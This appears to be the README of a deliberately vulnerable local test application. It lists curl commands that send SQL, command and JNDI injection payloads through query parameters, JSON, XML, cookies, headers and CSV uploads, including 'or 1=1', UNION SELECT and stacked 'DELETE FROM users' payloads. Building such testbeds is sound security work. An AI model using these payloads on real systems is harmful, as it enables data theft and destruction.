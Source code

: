 # Vulnerable

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl http://localhost:8080/vun/cmd/example1/1/?cmd=pwd
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/ -H "X-Filter:pwd"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"pwd\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/ --form file="@/tmp/file2.csv"
```

## JNDI Injection

### GET request - payload in query param
```bash
curl http://localhost:8080/vun/jndi/example1/?payload=java%3Acomp%2Fenv%2Fjdbc%2Fdatasource
```